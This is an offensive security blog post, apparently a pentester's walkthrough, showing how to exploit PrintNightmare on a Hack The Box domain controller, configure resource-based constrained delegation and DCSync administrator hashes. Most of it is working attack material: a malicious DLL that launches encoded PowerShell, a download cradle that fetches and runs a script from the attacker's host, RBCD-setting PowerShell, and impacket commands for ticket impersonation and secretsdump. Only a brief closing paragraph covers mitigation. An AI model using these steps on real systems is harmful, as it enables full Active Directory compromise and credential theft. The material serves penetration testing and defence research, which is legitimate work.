 ```yaml
---
layout: post
title: "Leveraging PrintNightmare to Abuse RBCD and DCSync the Domain"
date: 2021-06-30 23:00:00 +0300
author: snovvcrash
tags: [internal-pentest, active-directory, print-spooler, printer-bug, cve-2021-1675l, CVE-2021-34527, arbitary-file-write, impacket, rbcd]
---
```


A relatively stealthy way to exploit PrintNightmare (CVE-2021-1675 / CVE-2021-34527) by configuring and abusing RBCD on a domain controller.

<!--cut-->

![banner.png](/assets/images/leveraging-printnightmare-to-abuse-rbcd/banner.png)
{:.center-image}

* TOC
{:toc}

## Prologue

The recent [PrintNightmare](https://github.com/afwu/PrintNightmare) (post CVE-2021-1675, *UPD: a few days later Microsoft assinged it a brand new **CVE-2021-34527***) exploit abuses <strike>in</strike>famous Print Spooler service in order to load and execute arbitary code on a Windows machine.

I won't dive into the vulnerability analysis because exploit authors will definitely do it better on the upcoming Black Hat event. As for now a brief description of the attack [can be found on the GitHub](https://github.com/afwu/PrintNightmare#cve-2021-1675-analysis).

Thanks to [@cube0x0](https://twitter.com/cube0x0/status/1409928527957344262) now we have [an impacket-based exploit](https://github.com/cube0x0/CVE-2021-1675) to trigger RCE from a Linux box. Another thing I though about is the red team aspect when generating a custom DLL binary. Good old *msfvenom* is (totally) not enough to fly under the radar of commercial antivirus solutions and/or the SOC team operators. If you ask me, I'd rather not run any C2 agents on the DC but aim for standard Active Directory persistence techniques.

So, what can we do when having access to code execution on the behalf of DC machine account and nothing more? Here is when resource-based constrained delegation comes in: impersonating a computer account an adversary can configure RBCD bits for that specific computer object, so that a full AD compromise becomes possible with no need for [adding new users](https://github.com/newsoft/adduser) to privileged groups (which is surely monitored) or running "noisy" malicious stuff on the DC!

## Testing Environment

For demonstration purposes I will use [Multimaster](https://www.hackthebox.eu/home/machines/profile/232) - a retired machine from Hack The Box - as a lab to play with PrintNightmare:

```powershell
PS > systeminfo

Host Name:                 MULTIMASTER
OS Name:                   Microsoft Windows Server 2016 Standard
OS Version:                10.0.14393 N/A Build 14393
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Primary Domain Controller
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:
Product ID:                00376-30821-30176-AA432
Original Install Date:     9/25/2019, 10:57:13 AM
System Boot Time:          6/30/2021, 11:01:25 AM
System Manufacturer:       VMware, Inc.
System Model:              VMware7,1
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: AMD64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
BIOS Version:              VMware, Inc. VMW71.00V.13989454.B64.1906190538, 6/19/2019
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume2
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC-08:00) Pacific Time (US & Canada)
Total Physical Memory:     4,095 MB
Available Physical Memory: 1,840 MB
Virtual Memory: Max Size:  4,799 MB
Virtual Memory: Available: 2,307 MB
Virtual Memory: In Use:    2,492 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    MEGACORP.LOCAL
Logon Server:              N/A
Hotfix(s):                 5 Hotfix(s) Installed.
                           [01]: KB3199986
                           [02]: KB4054590
                           [03]: KB4512574
                           [04]: KB4520724
                           [05]: KB4530689
Network Card(s):           1 NIC(s) Installed.
                           [01]: vmxnet3 Ethernet Adapter
                                 Connection Name: Ethernet0 2
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.179
                                 [02]: fe80::c411:2b77:5e6f:acaf
                                 [03]: dead:beef::c411:2b77:5e6f:acaf
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.
```

## Exploiting PrintNightmare

The first thing I want to do is to prepare a skeleton for malicious DLL binary that will source and execute a PowerShell script served by an HTTP server on my machine. To construct a DLL one may use [a template](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/dll-hijacking#your-own) from HackTricks. Another thing to remember is that a threaded approach should be used to run the command in order not to kill the parent process of Spooler service when exiting (similar to `EXITFUNC=thread` when generating a payload with msfvenom). Otherwise the Spooler will probably die and you will not have a second chance to trigger the RCE if something goes wrong.

```c
// pwn.c

#include <windows.h>
#include <stdlib.h>
#include <stdio.h>

// Default function that is executed when the DLL is loaded
void Entry() {
    system("powershell -enc <BASE64_PWSH_CODE>");
}

BOOL APIENTRY DllMain(HMODULE hModule, DWORD ul_reason_for_call, LPVOID lpReserved) {
  switch (ul_reason_for_call) {
    case DLL_PROCESS_ATTACH:
      CreateThread(0, 0, (LPTHREAD_START_ROUTINE)Entry, 0, 0, 0);
      break;
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
      break;
  }
  return TRUE;
}
```

Next I will grab an example of [how RBCD bytes can be set with native PowerShell](https://github.com/hausec/Set-RBCDBytes/blob/main/Set-RBCDBytes.ps1) (by [@haus3c](https://twitter.com/haus3c)) and change the code for my case:

```powershell
$ID = New-Object System.Security.Principal.NTAccount("megacorp.local\fakemachine$")
$SID = $ID.Translate([System.Security.Principal.SecurityIdentifier]).ToString()
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($SID))"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
$DN = ([adsisearcher]"(&(objectclass=computer)(name=MULTIMASTER))").FindOne().Properties.distinguishedname
$adsiobject = [ADSI]"LDAP://$DN"
$adsiobject.Put("msDS-allowedToActOnBehalfOfOtherIdentity", $SDBytes)
$adsiobject.setinfo()
```

Now I have to create a fake machine account to use it when it comes to requesting a forwardable ticket with S4U2Self & S4U2Proxy (some good references on how to abuse RBCD can be found on [PPN](https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/delegation-abuse#resource-based-constrained-delegation-rbcd) and in my [HTB Hades write-up](https://snovvcrash.rocks/2020/12/28/htb-hades.html#abusing-kerberos-resource-based-constrained-delegation)):

```bash
$ addcomputer.py megacorp.local/lowpriv:'Passw0rd1!' -dc-ip 10.10.10.179 -computer-name fakemachine -computer-pass 'Passw0rd2!'
```

[![create-fake-machine-account.png](/assets/images/leveraging-printnightmare-to-abuse-rbcd/create-fake-machine-account.png)](/assets/images/leveraging-printnightmare-to-abuse-rbcd/create-fake-machine-account.png)

After the machine object is successfully created (in other words we control a domain account with an SPN) I will make a file with a simple download cradle in PowerShell and convert it to UTF-16LE:

```bash
$ cat crandle.ps1
IEX(IWR http://10.10.14.11/rbcd.ps1 -UseBasicParsing)

$ cat crandle.ps1 | iconv -t UTF-16LE | base64 -w0
```

[![create-download-cradle.png](/assets/images/leveraging-printnightmare-to-abuse-rbcd/create-download-cradle.png)](/assets/images/leveraging-printnightmare-to-abuse-rbcd/create-download-cradle.png)

I will can put the resulting base64 command into DLL source code and cross-compile it to x64 using MinGW:

```bash
$ x86_64-w64-mingw32-gcc pwn.c -o pwn.dll -shared
```

[![compile-dll.png](/assets/images/leveraging-printnightmare-to-abuse-rbcd/compile-dll.png)](/assets/images/leveraging-printnightmare-to-abuse-rbcd/compile-dll.png)

Then move the binary to the Samba share and [check that it's accessible](https://github.com/cube0x0/CVE-2021-1675#smb-configuration):

[![prepare-samba.png](/assets/images/leveraging-printnightmare-to-abuse-rbcd/prepare-samba.png)](/assets/images/leveraging-printnightmare-to-abuse-rbcd/prepare-samba.png)

I will download and install [the modified impacket library](https://github.com/cube0x0/impacket) within a virtual environment as well as download [the exploit script](https://github.com/cube0x0/CVE-2021-1675/blob/main/CVE-2021-1675.py):

[![install-impacket.png](/assets/images/leveraging-printnightmare-to-abuse-rbcd/install-impacket.png)](/assets/images/leveraging-printnightmare-to-abuse-rbcd/install-impacket.png)

Note that dynamic `pDriverPath` (location of the `UNIDRV.DLL` binary) enumeration feature [was added by cube0x0](https://github.com/cube0x0/CVE-2021-1675/commit/3bad3016aca9a6ebb75e5e687614d1c0d045b1f6) a couple of hours after the release - without it the adversary would have to change the script according to the environment:

```powershell
PS > ls C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_*
```

[![get-pdriverpath.png](/assets/images/leveraging-printnightmare-to-abuse-rbcd/get-pdriverpath.png)](/assets/images/leveraging-printnightmare-to-abuse-rbcd/get-pdriverpath.png)

Fire up an HTTP server with Python and trigger the bug:

```bash
$ python CVE-2021-1675.py megacorp.local/lowpriv:'Passw0rd1!'@10.10.10.179 '\\10.10.14.11\share\pwn.dll'
```

[![trigger-the-exploit.png](/assets/images/leveraging-printnightmare-to-abuse-rbcd/trigger-the-exploit.png)](/assets/images/leveraging-printnightmare-to-abuse-rbcd/trigger-the-exploit.png)

In the background it will set the `PrincipalsAllowedToDelegateToAccount` property which can be verified like follows:

```powershell
PS > Get-ADComputer MULTIMASTER -Properties PrincipalsAllowedToDelegateToAccount
```

[![check-properties.png](/assets/images/leveraging-printnightmare-to-abuse-rbcd/check-properties.png)](/assets/images/leveraging-printnightmare-to-abuse-rbcd/check-properties.png)

Now I can request a service ticket for LDAP:

```bash
$ getST.py megacorp.local/fakemachine:'Passw0rd2!' -dc-ip 10.10.10.179 -spn ldap/MULTIMASTER.megacorp.local -impersonate administrator
```

[![request-ticket.png](/assets/images/leveraging-printnightmare-to-abuse-rbcd/request-ticket.png)](/assets/images/leveraging-printnightmare-to-abuse-rbcd/request-ticket.png)

And finally DCSync the domain with `secretsdump.py`:

```bash
$ export KRB5CCNAME=/home/snovvcrash/PrintNightmare/CVE-2021-1675/administrator.ccache
$ secretsdump.py multimaster.megacorp.local -dc-ip 10.10.10.179 -k -no-pass -just-dc-user administrator
```

[![dcsync.png](/assets/images/leveraging-printnightmare-to-abuse-rbcd/dcsync.png)](/assets/images/leveraging-printnightmare-to-abuse-rbcd/dcsync.png)

## Afterthoughts

The described vulnerability poses enormous risks to active directory infrastructures and must never be used for illegal purposes. To mitigate the risk the Spooler service should be disabled or uninstalled until an official fix is released by vendor. An example on how to disable the Print Spooler can be found [here](https://github.com/LaresLLC/CVE-2021-1675).

*UPD*. Depending on the state of a user's access token (elevated / non-elevated) whose account one's impersonating when making RPC calls to `RpcAddPrinterDriverEx`, the attack may succeed or fail. On the following diagram (by [@StanHacked](https://twitter.com/StanHacked)) there're some conditions that can affect the token state:

[![making-sence-of-printnightmare.png](https://pbs.twimg.com/media/E5ShO9wXwAAPAC9?format=jpg&name=4096x4096)](https://twitter.com/StanHacked/status/1410929974358515719/photo/1)
